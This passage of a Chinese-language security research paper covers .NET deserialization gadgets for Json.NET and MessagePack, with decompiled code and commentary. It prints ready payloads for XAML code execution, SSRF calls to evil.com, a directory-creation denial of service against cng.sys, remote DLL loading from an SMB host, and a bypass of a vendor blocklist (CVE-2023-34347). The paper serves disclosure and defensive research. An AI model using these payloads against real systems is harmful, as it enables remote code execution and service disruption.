System.Activities.Presentation, Version=4.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
    "stream": 
    { 
        "$type":"Microsoft.Web.Deployment.ReadOnlyStreamFromStrings,  
Microsoft.Web.Deployment, Version=9.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
        "enumerator": 
        { 

"$type":"Microsoft.Web.Deployment.GroupedIEnumerable`1+GroupEnumerator[[System.St 
ring, mscorlib]], Microsoft.Web.Deployment, Version=9.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
        "enumerables": 
        [ 
            { 
                "$type":"System.Collections.Generic.List`1[[System.String,  
mscorlib]], mscorlib", 
                    "$values":[""] 
                } 
            ] 
        }, 
        "stringSuffix":"xaml-gadget-here" 
    } 
}
```

代码段 132 XamlImageInfo gadget - Json.NET non-GAC version

描述： `System.Activities.Presentation.Internal.ManifestImages+XamlImageInfo` 实现单个公共构造函数，它接受一个参数。

```plain
private class XamlImageInfo : ManifestImages.ImageInfo 
{ 
    public XamlImageInfo(Stream stream) // [1] 
    { 
        this._image = XamlReader.Load(stream); // [2] 
    }
```

代码段 133 XamlImageInfo constructor

在\[1\]处，定义了构造函数。

在\[2\]处，调用了 `XamlReader.Load` 方法，并将攻击者控制的流作为参数传递。

XamlReader 可以用于利用恶意 XAML 实现远程代码执行。然而，这里可能存在一个困难。输入的类型是 Stream，而对于一些序列化器，这种类型可能会有问题。例如，`Json.NET` 对扩展 Stream 的常见类存在一般性问题。基于此，我为 `Json.NET` 开发了这个小工具的两个变体。

##### 5.3.1 变体 1 – 基于 GAC：

实际上，Stream 是一个抽象类。扩展 Stream 的常见类包括 MemoryStream 或 FileStream。事实证明，它们都不能在 `Json.NET` 的默认配置下进行反序列化（需要编写自定义解析器）。

因此，我们必须寻找以下条件的类：

-   扩展 Stream 抽象类。
-   可以在 `Json.NET` 中进行反序列化。
-   我们能够控制在调用 Read 方法后返回的数据。

在查看 GAC 程序集中实现的类时，我找到了 `Microsoft.Build.Tasks.Windows.ResourcesGenerator+LazyFileStream` 类：

```plain
private class LazyFileStream : Stream 
{ 

    public LazyFileStream(string path) // [1] 
    { 
        this._sourcePath = Path.GetFullPath(path); // [2] 
    } 

    public override int Read(byte[] buffer, int offset, int count) 
    { 
        return this.SourceStream.Read(buffer, offset, count); // [3] 
    } 

    private Stream SourceStream 
    {
        get 
        { 
            if (this._sourceStream == null) 
            { 
                this._sourceStream = new FileStream(this._sourcePath, 
FileMode.Open, FileAccess.Read, FileShare.Read); // [4] 
                long length = this._sourceStream.Length; 
                if (length > 2147483647L) 
                { 
                    throw new ApplicationException(SR.Get("ResourceTooBig", new 
object[] 
                    { 
                        this._sourcePath, 
                        int.MaxValue 
                    })); 
                } 
            } 
            return this._sourceStream; 
        } 
    } 
    ... 
}
```

代码段 134 Fragment of LazyFileStream class

在\[1\]处定义了构造函数，它接受一个字符串作为参数。

在\[2\]处，使用攻击者控制的路径设置了 `_sourcePath` 成员。

在\[3\]处，Read 方法导致了 `this.SourceStream.Read` 的调用。

在\[4\]处，基于攻击者提供的路径创建了内部 FileStream。

可以看到 `LazyFileStream` 类既可以由 `Json.NET` 反序列化，又可以根据攻击者控制的路径创建内部 FileStream。

因此，此类可用于传递 XAML 负载。我们可以通过远程 SMB 服务器加载远程 XAML 文件（必须提供 UNC 路径），或者将此小工具与文件写入原语链结合起来，以加载本地文件。

##### 5.3.2 变体 2 – Microsoft.Web.Deployment：

应用程序使用多个不同的非 GAC 程序集是很常见的。如果目标使用 `Microsoft.Web.Deployment`，可以直接提供 XAML 小工具。这是因为我们可以使用 `Microsoft.Web.Deployment.ReadOnlyStreamFromStrings` 类：

```plain
public ReadOnlyStreamFromStrings(IEnumerator<string> enumerator, string 
stringSuffix) 
{ 
    this._enumerator = new 
ReadOnlyStreamFromStrings.StringAsBufferEnumerator(enumerator, stringSuffix); 
}
```

代码段 135 ReadOnlyStreamFromStrings constructor

我们必须将两个输入传递给构造函数：实现 `IEnumerator<string>` 接口的类和一些字符串。我们可以提供任何`IEnumerator<string>`，例如：

`Microsoft.WebDeployment.GroupedIEnumerable<T>`。

无论如何，这个枚举器不得存储任何值。让我们分析`ReadOnlyStreamFromStrings.Read` 方法：

```plain
public override int Read(byte[] buffer, int offset, int count) 
{ 
    while (this._remainingBytesInBuffer <= 0) 
    { 
        if (!this._enumerator.MoveNext()) 
        { 
            return 0; 
        } 
        this._remainingBytesInBuffer = this._enumerator.Current.Length; 
    } 
    int num; 
    if (count > this._remainingBytesInBuffer) 
    { 
        num = this._remainingBytesInBuffer; 
    } 
    else 
    { 
        num = count; 
    } 
    int sourceIndex = this._enumerator.Current.Length - 
this._remainingBytesInBuffer; 
    Array.Copy(this._enumerator.Current, sourceIndex, buffer, offset, num); //  
[1] 
    this._remainingBytesInBuffer -= num; 
    return num; 
}
```

代码段 136 ReadOnlyStreamFromStrings.Read method

在 \[1\] 处，源数组实际上是通过 `StringAsBufferEnumerator.get_Current` 检索的：

```plain
public byte[] Current 
{ 
    get 
    { 
        if (this._currentBuffer == null) 
        { 
            string s = this._enumerator.Current + this._stringSuffix; // [1] 
            this._currentBuffer = Encoding.UTF8.GetBytes(s); 
        } 
        return this._currentBuffer; 
    } 
}
```

代码段 137 StringAsBufferEnumerator.get\_Current getter

在\[1\]处，攻击者可控制的字符串被附加到从 `GroupedIEnumerable<string>` 枚举器检索的数据上。由于我们无法向枚举器提供任何值，整个流将等于我们字符串的后缀。

因此，这个小工具可以用来将 XAML 小工具封装在 `XamlImageInfo` 内部。

#### 5.4 关于 XamlReader 的一些想法

通常，人们会通过 `ObjectDataProvider` 利用 `System.Windows.Markup.XamlReader`。需要注意的是：该 XamlReader 支持 XAML2009，包括 x:FactoryMethod 指令 28。

简而言之，我们几乎能调用对象的任何方法，因此无需使用 `ObjectDataProvider`，只需执行以下操作：

```plain
<Process xmlns='clr
namespace:System.Diagnostics;assembly=System.Diagnostics.Process' 
xmlns:assembly='http://schemas.microsoft.com/winfx/2006/xaml' 
xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' x:FactoryMethod='Start'> 
    <x:Arguments> 
    calc.exe 
    </x:Arguments> 
</Process>
```

代码段 138 XamlReader - sample Process based gadget

如我们所见，这个简单的小工具：

-   实例化进程。
-   使用参数调用其 Start 方法。

如果在代码中看到 `XamlReader.Parse` 或 `XamlReader.Load` 调用，其中代码查找 `ObjectDataProvider` 并阻止这样的小工具，请使用上面提供的方法。请记住，可以调用通过 XamlReader 反序列化类的方法。

#### 5.5 其他小工具 – SSRF、拒绝服务和潜在的 SetCurrentDirectory

有些小工具虽然不会导致远程代码执行，但在各种场景中仍可能很有用。在本章中，将介绍两个服务器端请求伪造小工具。这些小工具既可用于利用内部系统，也可用于在黑盒渗透测试或漏洞赏金狩猎中检测可疑的反序列化接收点。

此外，还将展示一个任意目录创建小工具。在以管理员权限执行时，它可能导致拒绝服务。

##### 5.5.1 潜在的 SetCurrentDirectory 小工具

在前面的章节中，我提到了 `Xunit PreserverWorkingFolder` 小工具，它允许通过调用`Directory.SetCurrentDirectory` 方法修改当前目录。这是一个强大的小工具，允许基于相对路径滥用文件操作。

我注意到 `.NET Framework` 中有三个潜在的 `SetCurrentDirecotry` 小工具，尽管它们不能再次使用 `Json.NET` 的默认配置。但是，它们可能适用于：

-   非默认配置。
-   不同的序列化程序。

a）系统环境

这个类有一个公共的无参构造函数，通过 `CurrentDirectory` 成员可以修改当前目录。然而，这个成员是静态的，而在默认配置下 `Json.NET` 无法调用静态成员。

```plain
public static string CurrentDirectory 
{ 
    get 
    { 
        return Directory.GetCurrentDirectory(); 
    } 
    set 
    { 
        Directory.SetCurrentDirectory(value); 
    } 
}
```

代码段 139 Environment.CurrentDirectory static setter

b) Microsoft.VisualBasic.FileIO.FileSystem

这与 `System.Environment` 中的情况相同。`FileSystem.CurrentDirectory` 是静态的。

c) Microsoft.VisualBasic.MyServices.FileSystemProxy

这一次，`CurrentDirectory` 是非静态的。

```plain
public string CurrentDirectory 
{ 
    get 
    { 
        return FileSystem.CurrentDirectory; 
    } 
    set 
    { 
        FileSystem.CurrentDirectory = value; 
    } 
}
```

代码段 140 FileSystemProxy.CurrentDirectory setter

这一次。公共非静态 setter 在内部调用静态 `Microsoft.VisualBasic.FileIO.FileSystem.CurrentDirectory`，并允许修改当前目录。

但是，`FileSystemProxy` 的构造函数是内部的。

```plain
internal FileSystemProxy() 
{ 
    this.m_SpecialDirectoriesProxy = null; 
}
```

代码段 141 Internal constructor of FileSystemProxy

如果此小工具配置为与非公共构造函数一起运行，则可以与 `Json.NET` 一起使用。

##### 5.5.2 PictureBox - SSRF 小工具

目标类：`System.Windows.Forms.PictureBox`

适用范围：可能是所有基于 setter 的序列化程序 – 没有参数的公共构造函数和几个接受 Bool 或 String 的 setter。

小工具（Json.NET）：

```plain
{ 
    "$type":"System.Windows.Forms.PictureBox, System.Windows.Forms, Version =  
4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089", 
    "WaitOnLoad":"true", 
    "ImageLocation":"http://evil.com/poc" 
}
```

代码段 142 PictureBox - exemplary JSON.NET gadget

描述：此小工具允许使用多种协议（HTTP、HTTPS、FTP 和 SMB）。必须以真正的价值调用 `set_WaitOnLoad`。

```plain
public bool WaitOnLoad 
{ 
    get 
    { 
        return this.pictureBoxState[16]; 
    } 
    set 
    { 
        this.pictureBoxState[16] = value; 
    } 
}
```

代码段 143 PictureBox - WaitOnLoad seter

然后，需要使用目标 URL 调用 `set_ImageLocation`。

```plain
public string ImageLocation 
{ 
    set 
    { 
        this.imageLocation = value; 
        this.pictureBoxState[32] = !string.IsNullOrEmpty(this.imageLocation); 
        if (string.IsNullOrEmpty(this.imageLocation) &&  
this.imageInstallationType != PictureBox.ImageInstallationType.DirectlySpecified) 
        { 
 t          his.InstallNewImage(null,  
PictureBox.ImageInstallationType.DirectlySpecified); 
        } 
        if (this.WaitOnLoad && !this.pictureBoxState[64] &&  
!string.IsNullOrEmpty(this.imageLocation)) 
        { 
            this.Load(); // [1] 
        } 
        base.Invalidate(); 
    } 
}
```

代码段 144 PictureBox - ImageLocation setter

在 \[1\] 处，调用 `PictureBox.Load`。

```plain
public void Load() 
{ 
    if (this.imageLocation == null || this.imageLocation.Length == 0) 
    { 
        throw new 
InvalidOperationException(SR.GetString("PictureBoxNoImageLocation")); 
    } 
    this.pictureBoxState[32] = false; 
    PictureBox.ImageInstallationType installationType =  
PictureBox.ImageInstallationType.FromUrl; 
    Image value; 
    try 
    { 
        this.DisposeImageStream(); 
        Uri uri = this.CalculateUri(this.imageLocation); 
        if (uri.IsFile) 
        { 
            this.localImageStreamReader = new StreamReader(uri.LocalPath); 
            value = Image.FromStream(this.localImageStreamReader.BaseStream); 
        } 
        else 
        { 
            using (WebClient webClient = new WebClient()) 
            { 
                this.uriImageStream = webClient.OpenRead(uri.ToString()); // [1] 
                value = Image.FromStream(this.uriImageStream); 
            } 
        }
    } 
    .. 
    // Removed for readability 
    ..
```

代码段 145 PictureBox - SSRF

在 \[1\] 处，使用攻击者控制的 URI 调用 `WebClient.OpenRead`。

##### 5.5.3 InfiniteProgressPage - SSRF 小工具

目标类：`Microsoft.ApplicationId.Framework.InfiniteProgressPage`

适用范围：可能适用于所有基于 setter 的序列化器 —— 公共无参构造函数和基于 String 类型的 setter。

小工具（Json.NET）：

```plain
{ 
    "$type":"Microsoft.ApplicationId.Framework.InfiniteProgressPage,  
Microsoft.ApplicationId.Framework, Version=10.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
    "AnimatedPictureFile":"http://evil.com/poc" 
}
```

代码段 146 InfiniteProgressPage - exemplary JSON.NET gadget

描述：

此小工具允许使用多种协议（HTTP、HTTPS、FTP 和 SMB）。令人惊讶的是，这个小工具很大程度上基于前面描述的 PictureBox。

```plain
public InfiniteProgressPage() 
{ 
    this.Initialize(); // [1] 
} 

private void Initialize() 
{ 
    this.InitializeComponent(); 
} 

private void InitializeComponent() 
{ 
    base.AutoScaleMode = AutoScaleMode.Font; 
    base.AutoScaleDimensions = new SizeF(6f, 13f); 
    this._animatedPicture = new PictureBox(); // [2] 
    ((ISupportInitialize)this._animatedPicture).BeginInit(); 
    base.SuspendLayout(); 
    .. 
    // Removed for readability 
}
```

代码段 147 InfiniteProgressPage - initialization

在 \[1\] 处，公共构造函数调用 Initialize 方法，这会导致 `InitializeComponent`调用。

在 \[2\] 处，`_animatedPicture` 成员设置为 `PictureBox`。

最后，`set_AnimatedPictureFile` 调用 `_animatedPicture.Load` 方法，该方法允许执行服务器端请求伪造（参见上一章）。

```plain
public string AnimatedPictureFile 
{ 
    set 
    { 
        try 
        { 
            this._animatedPictureFile = value; 
            this._animatedPicture.Load(this._animatedPictureFile); 
        } 
        catch 
        { 
            throw; 
        } 
    } 
}
```

代码段 148 InfiniteProgressPage - SSRF through PictureBox.Load invocation

##### 5.5.4 FileLogTraceListener - DoS 小工具

目标类：`Microsoft.VisualBasic.Logging.FileLogTraceListener`

适用范围：可能适用于所有基于 setter 的序列化器 —— 公共无参构造函数和基于 String 类型的 setter。

小工具（Json.NET）：

```plain
{ 
    "$type":"Microsoft.VisualBasic.Logging.FileLogTraceListener,  
Microsoft.VisualBasic, Version=10.0.0.0, Culture=neutral,  
PublicKeyToken=b03f5f7f11d50a3a", 
    "CustomLocation":"C:\\Windows\\System32\\cng.sys" 
}
```

代码段 149 FileLogTraceListener - exemplary JSON.NET gadget

描述：

此小工具允许创建新目录。与前面描述的 SSRF 小工具一样，它也可能允许在提供 UNC 路径时执行 NTLM 中继攻击。

这个小工具非常简单，基于 `set_CustomLocation` 设置器。

```plain
public string CustomLocation 
{ 
    set 
    { 
        string fullPath = Path.GetFullPath(value); 
        if (!Directory.Exists(fullPath)) // [1] 
        { 
            Directory.CreateDirectory(fullPath); // [2] 
        } 
        if (this.Location == LogFileLocation.Custom & string.Compare(fullPath,  
this.m_CustomLocation, StringComparison.OrdinalIgnoreCase) != 0) 
        { 
            this.CloseCurrentStream(); 
        } 
        this.Location = LogFileLocation.Custom; 
        this.m_CustomLocation = fullPath; 
        this.m_PropertiesSet[3] = true; 
    } 
}
```

代码段 150 FileLogTraceListener - CustomLocation setter

在 \[1\] 处，它验证提供的目录是否存在。

如果没有，它会在 \[2\] 处创建一个新目录。

具有管理员特权的任意目录创建可能导致在 Windows 操作系统上的永久拒绝服务。为了实现这一点，必须创建以下目录： `C:\Windows\System32\cng.sys`。

#### 5.6 Delta Electronics InfraSuite 设备主机 – CVE-2023-34347

本章介绍了 CVE-2023-1139/CVE-2023-1145 不安全序列化的绕过方法导致远程代码执行的漏洞。

供应商选择了一种不鼓励但仍然流行的方法：实施阻止列表。

以下代码片段显示了已实现的阻止列表。

```plain
private static readonly HashSet<string> rceBlacklist = new HashSet<string> 
{ 
    "System.Configuration.Install.AssemblyInstaller", 
    "System.Windows.Data.ObjectDataProvider", 
    "System.Activities.Presentation.WorkflowDesigner", 
    "System.Windows.ResourceDictionary", 
    "System.Windows.Forms.BindingSource", 
"Microsoft.Exchange.Management.SystemManager.WinForms.ExchangeSettingsProvider", 
    "System.Data.DataViewManager", 
    "System.Xml.XmlDocument",
    "System.Xml.XmlDataDocument", 
    "System.Management.Automation.PSObject", 
    "System.Configuration.SettingsProperty", 
    "System.Configuration.SettingsPropertyValue" 
};
```

代码段 151 Blocklist implemented in InfraSuite Device Master

可以注意到几点：

-   我的序列化小工具 `SettingsPropertyValue` 被阻止了。
-   在“Friday the 13th JSON Attacks”中描述的小工具被阻止了。

这个列表仍然缺少很多最新技术状态的小工具，因为 `ysoserial.net` 中的小工具没有修复。但有人可能认为这已经足够了，因为产品使用的 MessagePack 版本不能被 `ysoserial.net` 的任何小工具滥用。

这就是为什么我们寻找新的小工具并在第三方库中寻找小工具的原因。在前面的章节中，我已经介绍了`.NET Framework` 和第三方库中的十几个反序列化小工具。我还展示了一些第三方库中的序列化小工具。让我们利用这些知识。

该产品使用 Apache NMS 库。我在这个库中找到了一个序列化小工具，通过 `get_Body getter` 直接导致远程代码执行。

不幸的是，在这里无法单独使用此小工具。这是因为 MessagePack 无法序列化 `ActiveMQObjectMessage` 对象。但是，我们可以这样做：

-   使用其中一个 getter 调用反序列化小工具，因为它们可以与 MessagePack 一起使用。
-   将 `ActiveMQObjectMessage` 序列化小工具存储在其中。

结果，我们将直接调用 `get_Body` 方法，并实现远程代码执行。

在此过程中，我选择了 `PropertyGrid` 小工具。由于使用 MessagePack 序列化的对象采用二进制格式，因此其内容不容易阅读。为了演示目的，我可以使用 `Json.NET` 展示该小工具的外观。

```plain
{ 
    "$type":"System.Windows.Forms.PropertyGrid, System.Windows.Forms, Version =  
4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089", 
    "SelectedObjects":[ 
        { 
            "$type":"Apache.NMS.ActiveMQ.Commands.ActiveMQObjectMessage,  
Apache.NMS.ActiveMQ, Version=2.0.1.0, Culture=neutral,  
PublicKeyToken=82756feee3957618", 
            "Content":"base64encoded-binaryformatter-gadget" 
        } 
    ] 
}
```

代码段 152 PropertyGrid and ActiveMQObjectMessage gadgets chained

当这样的小工具被传送到端口 3100/tcp（但采用 MessagePack 序列化格式）时，攻击者的代码被执行。

黑名单应该被抛弃，我们不能依赖于最新小工具列表，我们始终要保持警惕，攻击者会找到绕过它的方法。

### 6 .NET>=5 中的反序列化和序列化小工具

整个 .NET 反序列化知识主要基于 `.NET Framework`。这是因为绝大多数企业应用程序和产品仍然基于 `.NET Framework`。很少能发现基于 .NET 5 或更高版本的产品。

本文并不打算专注于.NET>=5，尽管我简要查看了较新版本的 .NET 中关于基于 setter 的反序列化可能性。

总的来说，在考虑 .NET>=5 中的反序列化利用时有几个主要问题：

-   弃用 `BinaryFormatter`。大部分 .NET Framework 的小工具都依赖于 `BinaryFormatter` 进行反序列化。随着 `BinaryFormatter` 被弃用，这些小工具也就无法使用了。即便目标 .NET 版本仍能执行 `BinaryFormatter` 反序列化，常见的小工具在更新版本的 .NET 中也无法正常工作。
-   缺乏 GAC（全局程序集缓存）和更少的可访问命名空间。一般来说，一些框架（如 WPF）必须对特定的 .NET>=5 项目进行启用。这意味着一些类可能在目标环境中不可访问。
-   多平台方法。一些小工具可能适用于 Windows，但可能不适用于 Linux 或 Mac OSX。

在这项研究中，我迅速查看了.NET>=5，并发现：

-   如果为项目启用了 WPF，常见的 `ObjectDataProvider` 可以用于实现远程代码执行。
-   如果启用了 WPF，.NET 5、6 和 7 中存在两个新的远程 DLL 加载小工具。
-   存在导致远程 DLL 加载的序列化。当启用了 WPF 时，可以在反序列化过程中与 getter 调用小工具链接。
-   第三方库可用于实现远程 DLL 加载和代码执行（参见有关第三方库中的反序列化小工具的章节）。

以下表格列出了.NET 5、6 和 7 中可与 Json.NET 一起使用以实现远程代码执行的小工具。

| **Gadget** | **Type** | **Requirements** | **.NET versions** | **Effect** |
| --- | --- | --- | --- | --- |
| ObjectDataProvider30 | Deserialization | WPF Enabled | 5  <br>6  <br>7 | RCE through arbitrary method call. |
| BaseActivationFactory | Deserialization | WPF Enabled | 5  <br>6  <br>7 | RCE. Remote (SMB) or local loading  <br>of native DLL. |
| CompilerResults | Serialization | None for  <br>serialization.  <br>  <br>WPF Enabled  <br>for  <br>deserialization. | 5  <br>6  <br>7 | RCE. Remote (SMB) or local mixed  <br>DLL loading.  <br>Can be exploited directly with  <br>serialization.  <br>Deserialization can be chained with  <br>getter call gadgets. |

表 4 .NET 5、6 和 7 中的序列化和反序列化小工具

#### 6.1 .NET>=5 —— ObjectDataProvider 反序列化小工具

没有其他需要补充的内容，因为 `ysoserial.net ObjectDataProvider` 可以在启用 WPF 的情况下使用。请注意，这个小工具是众所周知的，通常存在于各种黑名单和保护机制中。如果无法使用它，可以选择其他小工具。

#### 6.2 .NET>=5 —— BaseActivationFactory 反序列化小工具

目标类：`WinRT.BaseActivationFactory`

适用性（序列化器）：`Json.Net`，可能还有 MessagePack 和其他可以调用带有参数的构造函数的序列化器，尽管未进行测试。

适用性（.NET）：适用于 Windows 的 .NET 5、6 和 7

要求：启用 WPF 或者 `PresentationFramework.dll` 可用。

效果：通过远程加载本地 DLL 实现远程代码执行。

小工具（Json.NET）：

```plain
{ 
    "$type":"WinRT.BaseActivationFactory, PresentationFramework, Version=4.0.0.0,  
Culture=neutral, PublicKeyToken=31bf3856ad364e35", 
    "typeNamespace":"\\\\192.168.1.100\\poc\\cppDllx64", 
    "typeFullName":"whatever" 
}
```

代码段 153 BaseActivationFactory remote DLL loading gadget

描述：

`WinRT.BaseActivationFactory` 实现单个公共构造函数，该构造函数接受两个字符串作为输入。

```plain
public BaseActivationFactory(string typeNamespace, string typeFullName) 
{ 
    string runtimeClassId = TypeExtensions.RemoveNamespacePrefix(typeFullName); 
    ValueTuple<ObjectReference<IActivationFactoryVftbl>, int> activationFactory =  
WinrtModule.GetActivationFactory(runtimeClassId); 
    this._IActivationFactory = activationFactory.Item1; 
    int item = activationFactory.Item2; 
    if (this._IActivationFactory != null) 
    { 
        return; 
    } 
    string text = typeNamespace; // [1] 
    for (;;) 
    { 
        try 
        {
            activationFactory = DllModule.Load(text +  
".dll").GetActivationFactory(runtimeClassId); // [2] 
            this._IActivationFactory = activationFactory.Item1; 
            if (this._IActivationFactory != null) 
            { 
                break; 
            } 
        } 
        catch (Exception) 
        { 
        } 
        int num = text.LastIndexOf('.'); 
        if (num <= 0) 
        { 
            Marshal.ThrowExceptionForHR(item); 
        } 
        text = text.Remove(num); 
    } 
}
```

代码段 154 BaseActivationFactory constructor

在 \[1\] 处，文本变量是根据攻击者控制的输入创建的。

在 \[2\] 处，“.dll”被附加到攻击者的字符串中，并将其传递给 `DllModule.Load` 方法。

```plain
public static DllModule Load(string fileName) 
{ 
    Dictionary<string, DllModule> cache = DllModule._cache; 
    DllModule result; 
    lock (cache) 
    { 
        DllModule dllModule; 
        if (!DllModule._cache.TryGetValue(fileName, out dllModule)) 
        { 
            dllModule = new DllModule(fileName); // [1] 
            DllModule._cache[fileName] = dllModule; 
        } 
        result = dllModule; 
    } 
    return result; 
}
```

代码段 155 DllModule.Load method

在 \[1\] 处，使用攻击者控制的文件名调用 DllModule 构造函数。

```plain
private DllModule(string fileName) 
{ 
    this._fileName = fileName; 
    this._moduleHandle =  
Platform.LoadLibraryExW(Path.Combine(DllModule._currentModuleDirectory, 
fileName), IntPtr.Zero, 8U); // [1]
    if (this._moduleHandle == IntPtr.Zero) 
    { 
        try 
        { 
            this._moduleHandle = NativeLibrary.Load(fileName, 
Assembly.GetExecutingAssembly(), null); 
        } 
        catch (Exception) 
        { 
        } 
    } 
    if (this._moduleHandle == IntPtr.Zero) 
    { 
        Marshal.ThrowExceptionForHR(Marshal.GetHRForLastWin32Error()); 
    } 
    this._GetActivationFactory =  
Platform.GetProcAddress<DllModule.DllGetActivationFactory>(this._moduleHandle); 
    IntPtr procAddress = Platform.GetProcAddress(this._moduleHandle, 
"DllCanUnloadNow"); 
    if (procAddress != IntPtr.Zero) 
    { 
        this._CanUnloadNow =  
Marshal.GetDelegateForFunctionPointer<DllModule.DllCanUnloadNow>(procAddress); 
    } 
}
```

代码段 156 DllModule constructor

在 \[1\] 处，攻击者控制的路径将传递给 `Platform.LoadLibraryExW`。攻击者完全控制路径，因为他控制 `Path.Combine` 的第二个参数。

```plain
[DllImport("kernel32.dll", SetLastError = true)] 
public static extern IntPtr LoadLibraryExW([MarshalAs(UnmanagedType.LPWStr)] 
string fileName, IntPtr fileHandle, uint flags);
```

代码段 157 Platform.LoadLibraryExW

可以看出，它实际上是 `kernel32！LoadLibraryExW` 调用，攻击者完全控制 path（第一个参数）。由于 dwFlags 被硬编码为 0x08，因此 DllMain 方法将在 DLL 加载。攻击者可利用以下情形：

-   使用恶意本机 DLL 准备 SMB 服务器。
-   使用小工具远程加载 DLL。
-   DllMain 方法将在加载 DLL 时执行。

#### 6.3 .NET>=5 – CompilerResults 序列化小工具和反序列化小工具链

目标类：`WinRT.BaseActivationFactory`

适用性（序列化程序）：`Json.Net`，可能是 MessagePack 和其他可以调用的序列化程序带有参数的构造函数，尽管没有执行测试。

适用性（.NET）：适用于 Windows 的 .NET 5、6 和 7.

要求：序列化 - 无要求。反序列化 —— 启用 WPF 或 `PresentationFramework.dll` 可用。

效果：序列化 - 通过远程加载混合 DLL 来远程执行代码。反序列 —— 通过远程加载混合 DLL 进行远程代码执行，当与 getter 调用小工具链接时。

小工具（Json.NET）：序列化小工具：

```plain
{ 
    "$type":"System.CodeDom.Compiler.CompilerResults, System.CodeDom,  
Version=6.0.0.0, Culture=neutral, PublicKeyToken=cc7b13ffcd2ddd51", 
    "tempFiles":null, 
    "PathToAssembly":"\\\\192.168.1.100\\poc\\mixedassembly.dll" 
}
```

代码段 158 CompilerResults serialization gadget

反序列化小工具（带有 getter 调用小工具的链，需要 WPF）:

```plain
{ 
    "$type":"System.Windows.Forms.CheckedListBox, System.Windows.Forms,  
Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089", 
    "Items": 
    [ 
        { 
            "$type":"System.CodeDom.Compiler.CompilerResults, System.CodeDom,  
Version=6.0.0.0, Culture=neutral, PublicKeyToken=cc7b13ffcd2ddd51", 
            "tempFiles":null, 
            "PathToAssembly":"\\\\192.168.1.100\\poc\\mixedassembly.dll" 
        } 
    ], 
    "DisplayMember":"CompiledAssembly", 
    "Text":"whatever" 
}
```

代码段 159 GetterCompilerResults deserialization gadget

描述（序列化）：

`System.CodeDom.Compiler.CompilerResults` 实现单个公共构造函数，该构造函数定义 `TempFileCollection` 类型的输入。

```plain
public CompilerResults(TempFileCollection tempFiles) 
{ 
    this.TempFiles = tempFiles; 
}
```

代码段 160 CompilerResults constructor

TempFiles 成员与我们无关，因此可以在反序列化过程中将其设置为 null。

PathToAssembly 和 CompiledAssembly 成员对我们来说更重要。

```plain
public string PathToAssembly 
{ 
    [CompilerGenerated] 
    get 
    { 
        return this.<PathToAssembly>k__BackingField; 
    } 
    [CompilerGenerated] 
    set // [1] 
    { 
        this.<PathToAssembly>k__BackingField = value; 
    } 
} 

public Assembly CompiledAssembly 
{ 
    get // [2] 
    { 
        if (this._compiledAssembly == null && this.PathToAssembly != null) 
        { 
            this._compiledAssembly = Assembly.LoadFile(this.PathToAssembly); //  
[3] 
        } 
        return this._compiledAssembly; 
    } 
    set 
    { 
        this._compiledAssembly = value; 
     } 
}
```

在 \[1\] 中，定义了公共 `set_PathToAssembly`。它允许通过以下方式设置 PathToAssembly 成员反序列化。

在 \[2\] 中，定义了 CompiledAssembly 的公共 getter。它将在序列化期间调用。

在 \[3\] 处，攻击者控制的路径被传递给 `Assembly.LoadFile` 方法。

让我们暂停一下。众所周知，从 .NET 4 开始，远程 DLL 加载通过 `Assembly.LoadFile` 或 `Assembly.LoadFrom` 被阻止。不可能为这些提供 UNC 路径方法，并从攻击者的 SMB 服务器加载 DLL（直到某些默认设置为修改）。

事实证明，.NET 5、6 和 7 允许通过 `Assembly.LoadFile` 方法加载远程 DLL，因此这个小工具允许执行远程 DLL 加载。我已经检查了官方的 .NET 5、6 和 7 Assembly 类的文档，它明确指出应禁用远程加载：

```plain
Starting with .NET Framework 4, if pathspecifies an assembly in a remote location, assembly loading is disabled by default, and the LoadFilemethod throws a FileLoadException. To enable execution of code loaded from remote locations, you can use the <loadFromRemoteSources> configuration element.
```

代码段 161 Microsoft .NET 7 documentation for Assembly.LoadFile – 27th September 2023

根据文档的说法，不应该有这种可能性，我已经向 Microsoft 报告了这个问题。

时间线：

-   2023 年 3 月 15 日 - 向 Microsoft 发送了咨询。咨询称可以加载远程 DLL，尽管文档声称这不应该是可能的。
-   2023 年 3 月 16 日 - Microsoft 确认收到了报告。
-   2023 年 4 月 24 日 - Microsoft 结案并提供以下反馈：“我们确定这种行为被视为设计问题。文档正在更新以提供澄清”。
-   2023 年 9 月 27 日 - 文档仍未修改。尽管文档声称无法加载远程 DLL，但实际上是可以加载的。

总的来说，`Assembly.LoadFile` 和 `Assembly.LoadFrom`方法允许在 .NET>=5 中加载远程 DLL。这个序列化小工具可以用来实现远程代码执行。

描述（反序列化）：

在先前的章节中描述的四个 getter call 小工具都适用于 .NET>=5。然而，它们要求项目启用 WPF。如果启用了 WPF，则可以将 getter call 小工具和 CompilerResults 序列化小工具链在一起，通过反序列化加载远程 DLL。

### 7 总结

总结一下，在本文中，我向您展示了以下内容：

-   在产品代码库中寻找反序列化小工具。
-   在第三方库中寻找反序列化小工具。
-   不安全的序列化是存在的，并且在某些场景中它是可以被利用的（即在反序列化不可被利用的情况下）。
-   在 .NET Framework 中仍然存在未被发现的小工具。
-   使用任意 getter call 小工具来大幅增加攻击面，并将它们与不同的小工具链在一起。

我还分享了十多个反序列化/序列化小工具，并演示了一些现实环境中的漏洞，这些漏洞可能利用了这些小工具。

希望这些知识能被用来发现那些看似不可利用的反序列化漏洞，并希望本文能够有助于寻找属于自己的反序列化小工具。

### 参考链接

1.  https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles
2.  https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH\_US\_12\_Forshaw\_Are\_You\_My\_Type\_WP.pdf
3.  https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
4.  https://github.com/pwntester/ysoserial.net
5.  https://web.archive.org/web/20180903005001/https://www.nccgroup.trust/uk/about-us/newsroom-andevents/blogs/2018/august/aspnet-resource-files-resx-and-deserialisation-issues/
6.  https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html
7.  https://www.nuget.org/packages/Newtonsoft.Json/
